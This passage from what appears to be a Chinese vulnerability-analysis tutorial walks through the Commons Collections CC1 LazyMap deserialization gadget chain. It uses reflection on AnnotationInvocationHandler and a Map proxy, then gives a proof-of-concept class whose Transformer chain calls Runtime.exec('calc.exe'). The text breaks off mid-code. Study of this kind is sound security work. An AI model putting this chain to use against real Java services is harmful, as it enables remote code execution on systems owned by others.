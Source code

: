 ![image-20211214182838450](images/22.png)

`this.memberValues`可控,这里就可以去触发invoke

具体怎么做呢

在TransformedMap链也说了,`AnnotationInvocationHandler`是一个内部类,需要用反射的方法去获取

```
Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);//暴露反射获取AnnotationInvocationHandler的构造器
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class,outmap);
        //handler是代理的请求处理器,里面是具体的处理逻辑
        Map Mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
//        Map Mapproxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        //创建Map接口的代理实例,因为LazyMap实现了Map的接口,所以被代理类相当于LazyMap
        handler = (InvocationHandler) construct.newInstance(Retention.class,Mapproxy);
        /*
         *创建的代理实例对象叫Mapproxy,但是这里并不能直接序列化,他没有readObject操作，不能对他直接操作
         *因为入口点是sun.reflect.annotation.AnnotationInvocationHandler的readObject
         *所以用AnnotationInvocationHandler对Mapproxy进行包装,这样反序列化时调用AnnotationInvocationHandler触发readObject里面的
         *this.memberValues.entrySet().iterator()触发invoke
         */
```

## 漏洞复现

最终的POC

```
package cn.DawnT0wn;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;
import java.util.HashMap;
import java.lang.annotation.Retention;
public class CC1LazyMap {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", null
                }),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, null
                }),
                new InvokerTransformer("exec", new Class[]{
                        String.class}, new Object[]{
                        "calc.exe"
```